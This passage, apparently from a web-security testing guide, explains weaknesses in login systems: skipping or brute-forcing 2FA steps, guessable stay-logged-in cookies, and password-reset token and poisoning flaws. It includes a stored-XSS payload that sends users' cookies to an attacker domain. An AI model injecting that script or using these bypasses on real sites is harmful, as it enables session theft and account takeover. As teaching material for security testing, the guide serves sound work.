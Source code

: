         "qwerty"
        ...
        ]
        ```

### Testing for Multi-Factor Authentication (MFA)

* Sometimes, the implementation of 2FA is flawed to the point where it can be bypassed entirely.
* If the user is asked to enter a password first, and then asked to enter a verification code on a different page, the user is already in "logged in"state before entering the verification code. This is because the user has already entered the password. In this case, try to skip the first authentication step and go straight to "logged-in only" pages.
* Sometimes, after a user has finished the first step of 2FA, the website doesn't always check well enough to make sure that the same user is doing the second step. If the attacker is then able to brute-force the verification code, they could log in to any user's account just by knowing their username, password is not needed at all. This is very dangerous.
* Some websites try to prevent brute-force attacks on 2FA codes by logging users out automatically after a certain number of wrong verification codes. But this is also not perfect because an advanced attacker can just automate this multi-step process by [creating macros](https://portswigger.net/burp/documentation/desktop/settings/sessions/macros) for Burp Intruder. The [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) extension can also be used for this purpose.

### Testing for Other Authentication Mechanisms

* It is best practice for `stay-logged-in` cookie to be impractical to guess. However, some websites generate this cookie based on a username, a timestamp or a password. For example, a `stay-logged-in` cookie can be in this format - `base64(username+':'+md5HashOfPassword)`. Using a simple two-way encoding like Base64 offers no protection.
* If the **[stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)** is present in the comment section of the blog post of a website, then the attacker can just post a comment containing some XSS payload (as shown below) and whenever a user visit this post, this will send the cookies (such as `stay-logged-in` cookie) of the user to the attacker. 
    ```
    <script>document.location='//attacker-domain/'+document.cookie</script>
    ```
* A robust method of resetting passwords is to send a *unique URL* to users that takes them to a password reset page. This unique URL can be made of a high-entropy, hard-to-guess token. For example-
    ```
    http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8
    ```
    This token should expire after a short period of time and be destroyed immediately after the password has been reset.<br>
    However, some websites fail to also validate the token again when the reset form is submitted. In this case, an attacker could simply visit the reset form from their own account, delete the token, and leverage this page to reset an arbitrary user's password.
* If the URL in the reset email is generated *dynamically*, this may also be vulnerable to password reset poisoning. In this case, an attacker can potentially steal another user's token and use it change their password.<br>
    - **[Password reset poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)** can occur when a website relies on header values to direct traffic or craft page links. If left unchecked, an attacker can inject their own values and modify the intended behavior of the application.
    - Social engineering and **[Host Header Injection](https://portswigger.net/web-security/host-header)** increases the probability of this attack.
* Ideally, *password change* functionality is available only to logged in users. But sometimes application allows an attacker to access this page directly without being logged in as the victim user. This is why an attacker can just use his/her account password reset request to brute-force password of other users.
